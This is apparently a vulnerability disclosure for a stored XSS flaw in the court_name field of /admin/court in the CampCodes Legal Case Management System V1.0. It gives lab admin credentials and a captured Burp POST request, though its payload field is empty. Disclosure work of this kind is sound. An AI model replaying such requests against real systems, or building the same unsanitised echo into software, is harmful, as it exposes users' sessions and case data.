

## Legal Case Management System

## XSS on `/admin/court`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/court
```

The parameter `court_name` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/court HTTP/1.1
Host: 192.168.150.131
Content-Length: 416
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3pvBd5baB03a59AB
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/court
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InRQUU5BQ3oxK1BZT0M0RzM1VlwvV0tnPT0iLCJ2YWx1ZSI6IkQ2Q3BOMmduXC9xZDU3MkRPSlJFN2VXYkpmSE5PXC9oMmNiODN6WTZEU3lURkoxZ0tIUTdmeGhXcEJxXC9oVEdneXoiLCJtYWMiOiJhNjI3YmI0ZjQzYzUwMTJmOWNhZDgzMzhjMGMxN2NmYzdiOWRmN2QyMWZiYzE3YTgxZjY5MmIyOWM1NzE4YjdhIn0%3D; test_session=eyJpdiI6ImRIdXc0SkpYNG40ekdYbFArd1FDYWc9PSIsInZhbHVlIjoiaWl1anlhakNuTllSaVBxdmJWN3JYY1hla05cL1p3XC9acmtxN0hDTDdld0N5TXdmTDZ2ZkJxOERLY2dmNGNoZ0NOIiwibWFjIjoiYzE0ZWNiOWVlNzYyNmZmNDJiMjQyNGY2YjIxZWIxYzg3OWY3MmY3NmI4ZmMwZWNhNTkyMzRkNjA1ZTU3ZmZmNSJ9
Connection: close

------WebKitFormBoundary3pvBd5baB03a59AB
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundary3pvBd5baB03a59AB
Content-Disposition: form-data; name="court_type"

2
------WebKitFormBoundary3pvBd5baB03a59AB
Content-Disposition: form-data; name="court_name"


------WebKitFormBoundary3pvBd5baB03a59AB--

```

### Screenshot


